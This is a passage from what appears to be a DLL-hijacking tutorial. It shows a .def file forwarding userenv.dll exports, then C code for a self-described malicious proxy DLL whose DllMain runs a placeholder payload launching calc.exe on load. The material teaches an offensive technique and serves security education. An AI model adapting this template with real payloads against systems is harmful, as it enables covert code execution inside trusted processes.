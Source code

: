 ```bash
GetProfilesDirectoryA=userenv.GetProfilesDirectoryA @145
GetProfilesDirectoryW=userenv.GetProfilesDirectoryW @146
GetUserProfileDirectoryA=userenv.GetUserProfileDirectoryA @147
GetUserProfileDirectoryW=userenv.GetUserProfileDirectoryW @148
HasPolicyForegroundProcessingCompleted=userenv.HasPolicyForegroundProcessingCompleted @149
LeaveCriticalPolicySection=userenv.LeaveCriticalPolicySection @150
LoadProfileExtender=userenv.LoadProfileExtender @151
LoadUserProfileA=userenv.LoadUserProfileA @152
LoadUserProfileW=userenv.LoadUserProfileW @153
ProcessGroupPolicyCompleted=userenv.ProcessGroupPolicyCompleted @154
ProcessGroupPolicyCompletedEx=userenv.ProcessGroupPolicyCompletedEx @155
RefreshPolicy=userenv.RefreshPolicy @156
RefreshPolicyEx=userenv.RefreshPolicyEx @157
RegisterGPNotification=userenv.RegisterGPNotification @158
RsopAccessCheckByType=userenv.RsopAccessCheckByType @159
RsopFileAccessCheck=userenv.RsopFileAccessCheck @160
RsopLoggingEnabled=userenv.RsopLoggingEnabled @105
RsopResetPolicySettingStatus=userenv.RsopResetPolicySettingStatus @161
RsopSetPolicySettingStatus=userenv.RsopSetPolicySettingStatus @162
UnloadProfileExtender=userenv.UnloadProfileExtender @163
UnloadUserProfile=userenv.UnloadUserProfile @164
UnregisterGPNotification=userenv.UnregisterGPNotification @165
WaitForMachinePolicyForegroundProcessing=userenv.WaitForMachinePolicyForegroundProcessing @166
WaitForUserPolicyForegroundProcessing=userenv.WaitForUserPolicyForegroundProcessing @167
```

With the `.def` file we now need to craft our malicious `.dll` by  reusing the C code from above. To not make it too malicious in the beginning we are simply adding an example `Payload()` which is
launching `calc.exe`:

```c
#include <processthreadsapi.h>
#include <memoryapi.h>

void Payload()
{
  STARTUPINFO si;
  PROCESS_INFORMATION pi;
  
  char cmd[] = "calc.exe";
  
  ZeroMemory(&si, sizeof(si));
  si.cb = sizeof(si);
  ZeroMemory(&pi, sizeof(pi));

  CreateProcess(NULL, cmd, NULL, NULL, FALSE, 0, NULL, NULL, &si, &pi);
}

BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpReserved)
{
  switch (fdwReason)
    {
    case DLL_PROCESS_ATTACH:
      Payload();
      break;
    case DLL_THREAD_ATTACH:
      break;
    case DLL_THREAD_DETACH:
      break;
    case DLL_PROCESS_DETACH:
      break;
    }
  return TRUE;
}
```